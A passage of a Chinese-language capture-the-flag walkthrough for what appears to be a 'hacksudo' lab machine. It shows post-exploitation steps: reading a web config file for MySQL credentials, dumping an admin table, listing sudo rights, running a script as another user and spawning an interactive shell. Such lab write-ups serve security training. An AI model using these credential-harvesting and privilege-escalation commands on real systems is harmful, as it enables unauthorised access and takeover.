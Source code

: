 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

/var/www/html/connect.php文件中找到mysql帐号密码

```
`cd /var/www/html``cat connect.php`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

mysql帐号thor密码password，连接到数据库查看

```
`mysql -uthor -ppassword``show databases;`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

进入hacksudo库查看表名

```
`use hacksudo;``show tables;`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

查看amdin表内容

```
select * from admin;
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到web后台帐号pwd密码password123,目前就找到这些，再来看看有哪些可以利用提权的

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

找到hammer.sh文件以thor用户权限执行不需要密码，运行试试

```
sudo -u thor /home/thor/./hammer.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提权成功，再次切换成交互式shell，查找可提权的程序

```
`python3 -c 'import pty;pty.spawn("/bin/bash")'``sudo -l`
```
